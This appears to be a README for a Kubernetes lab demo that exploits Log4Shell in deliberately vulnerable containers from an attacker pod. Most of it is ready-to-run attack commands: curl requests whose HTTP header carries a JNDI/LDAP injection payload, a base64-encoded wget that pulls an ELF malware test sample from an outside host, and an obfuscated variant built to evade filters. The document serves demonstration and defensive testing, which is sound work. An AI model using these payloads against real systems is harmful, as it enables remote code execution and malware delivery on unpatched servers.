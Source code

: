 Running the Demo
----------------

kubectl config set-context $(kubectl config current-context) --namespace=dirty-net2

1. Get into the attacking host

kubectl exec -it att-svr /bin/bash

2. Run the following two commands to execute the attack to the “vul-app1” container

curl vul-app1:8080 -H 'X-Api-Version: ${jndi:ldap://att-svr-5cd59d5f4-2vcfv:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'


Note: The command embedded in the HTTP header is

$ echo 'd2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK' | base64 -d wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/malware-sample





## Encode with base64 your command

```console
echo "touch /tmp/youHaveBeenPwned" | base64 -w0
dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==
```

## Execute the attack without obfuscation

```console
curl $(kubectl get svc vul-app1-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
curl $(kubectl get svc vul-app2-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
```

## Execute the attack with obfuscation

```console
curl $(kubectl get svc vul-app1-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
curl $(kubectl get svc vul-app2-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
```

## Confirm that the code execution was successful

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- ls -l /tmp
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- ls -l /tmp

```

## Connect to runnint pod

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- sh
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- sh
```

## Delete file inside the container

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- rm -f /tmp/youHaveBeenOwned
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- rm -f /tmp/youHaveBeenOwned
```